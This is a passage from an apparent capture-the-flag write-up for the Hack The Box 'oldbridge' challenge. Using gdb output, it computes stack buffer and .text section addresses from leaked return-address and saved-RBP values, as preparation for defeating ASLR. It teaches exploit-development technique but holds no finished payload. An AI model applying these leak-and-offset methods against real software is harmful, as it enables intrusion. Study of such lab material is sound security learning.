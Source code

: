What we have so far:

1. Using the return address we can now learn the **start of the .text section**. We can use gadgets from there, as well as jumping to the @plt of functions there and probably use the Global Offset Table for libc functions to leak libc addresses

2. Using the RBP, we can learn **the address of our buffer on the stack** because the offset from the old rbp and our stack will be fixed regardless of the starting address of the stack section in memory.

Let's start by computing the address of our buffer on the stack. By looking at the server, when the server `read`s our input to `0x7fffffffe110`:
```
=> 0x555555554bc9 <check_username+90>:	call   0x555555554970 <read@plt>
   0x555555554bce <check_username+95>:	mov    DWORD PTR [rbp-0x414],eax
   0x555555554bd4 <check_username+101>:	mov    DWORD PTR [rbp-0x418],0x0
   0x555555554bde <check_username+111>:	jmp    0x555555554c0b <check_username+156>
   0x555555554be0 <check_username+113>:	mov    eax,DWORD PTR [rbp-0x418]
Guessed arguments:
arg[0]: 0x4 
arg[1]: 0x7fffffffe110 --> 0x7ffff7ffe4c8 --> 0x7ffff7ffe428 --> 0x7ffff7ff1510 --> 0x7ffff7ffe170 --> 0x555555554000 (--> ...)
arg[2]: 0x420 
```

And if we check out the old rbp value (at the bottom of the stack frame), we can check that value by looking at where our current `rbp` is pointing to `0x00007fffffffe590`:

```
gdb-peda$ x/4gx $rbp
0x7fffffffe520:	0x00007fffffffe590	0x0000555555554ecf
0x7fffffffe530:	0x00007fffffffe678	0x00000002f7dd7660
gdb-peda$ x/16gx $rbp-0x20
0x7fffffffe500:	0x4242424242424242	0x4242424242424242
0x7fffffffe510:	0x4242424242424242	0xc68342c2b57a9500
0x7fffffffe520:	0x00007fffffffe590	0x0000555555554ecf
0x7fffffffe530:	0x00007fffffffe678	0x00000002f7dd7660
0x7fffffffe540:	0x00007fffffffe5a8	0x0000000100000010
0x7fffffffe550:	0x0000001000000539	0x0000000000000004
0x7fffffffe560:	0x0000000039050002	0x0000000000000000
0x7fffffffe570:	0x010011ac589b0002	0x0000000000000000
```

The distance from old rbp `0x00007fffffffe590` to our buffer `0x7fffffffe110` is `0x480`.

Moving on to the .text section, we leaked a specific address of an instruction inside the `main` function (the one that ends with `0xcf`).<br>
We can again go back to our server to see the offset of that value from the start of the section

```
gdb-peda$ bt
#0  0x0000555555554bce in check_username ()
#1  0x0000555555554ecf in main ()
#2  0x00007ffff7a05b97 in __libc_start_main (main=0x555555554c99 <main>, argc=0x2, argv=0x7fffffffe678, init=<optimized out>, fini=<optimized out>, 
    rtld_fini=<optimized out>, stack_end=0x7fffffffe668) at ../csu/libc-start.c:310
#3  0x0000555555554a5a in _start ()
gdb-peda$ vmmap
Start              End                Perm	Name
0x0000555555554000 0x0000555555556000 r-xp	/from_host/programming2/challenges/hack_the_box/oldbridge/oldbridge
0x0000555555755000 0x0000555555756000 r--p	/from_host/programming2/challenges/hack_the_box/oldbridge/oldbridge
0x0000555555756000 0x0000555555757000 rw-p	/from_host/programming2/challenges/hack_the_box/oldbridge/oldbridge
0x00007ffff79e4000 0x00007ffff7bcb000 r-xp	/lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7bcb000 0x00007ffff7dcb000 ---p	/lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcb000 0x00007ffff7dcf000 r--p	/lib/x86_64-linux-gnu/libc-2.27.so
```